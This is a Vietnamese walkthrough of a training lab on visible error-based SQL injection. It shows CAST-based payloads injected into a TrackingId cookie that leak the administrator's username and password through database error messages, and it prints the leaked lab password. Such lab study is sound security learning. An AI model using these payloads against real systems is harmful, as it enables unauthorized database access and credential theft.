






# Lab: Visible error-based SQL injection

## Mô tả lab

Trong cơ sở dữ liệu có bảng `users` gồm hai cột `username` và `password`. Mục tiêu của bài lab là tìm cách rò rỉ mật khẩu của tài khoản `administrator`, sau đó dùng thông tin đó để đăng nhập và hoàn thành lab.

## Các bước thực hiện

### Kiểm tra khả năng chèn SQL





### Dùng CAST để tạo lỗi có kiểm soát

```sql
' AND CAST((SELECT 1) AS int) --
```

Payload này gây lỗi vì toán tử `AND` yêu cầu một biểu thức boolean, trong khi `CAST((SELECT 1) AS int)` chỉ trả về số nguyên. Để sửa, thêm phép so sánh:

```sql
' AND 1=CAST((SELECT 1) AS int) --
```

Lúc này điều kiện trở thành hợp lệ. Nếu truy vấn con trả về `1`, biểu thức đúng và trang sẽ phản hồi bình thường.

### Thử lấy dữ liệu từ bảng users

Sau khi xác nhận kỹ thuật hoạt động, bắt đầu truy xuất dữ liệu từ bảng `users`:

```sql
' AND 1=CAST((SELECT username FROM users) AS int) --
```



Kết quả cho thấy câu truy vấn bị cắt ngắn do giới hạn độ dài. Để giải quyết, xóa phần giá trị gốc của cookie `TrackingId` và chỉ giữ lại payload khai thác để tiết kiệm số ký tự.



Sau khi rút gọn, server tiếp tục báo lỗi nhưng lần này là lỗi do truy vấn trả về nhiều dòng. Điều này cho thấy biểu thức đã được gửi tới database thành công, chỉ còn cần giới hạn kết quả về một dòng duy nhất.

### Giới hạn kết quả bằng LIMIT 1

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int) --
```



Điều này cho thấy database đã cố ép chuỗi `administrator` sang kiểu `int` và thất bại. Từ đó có thể xác định được username đầu tiên trong bảng là `administrator`.

### Rò rỉ mật khẩu của administrator

Sau khi lấy được username, thay `username` bằng `password` trong payload:

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int) --
```


Kết quả:

```text
rz1y6b8o1n0qwj6d0jq5
```



Lab solved.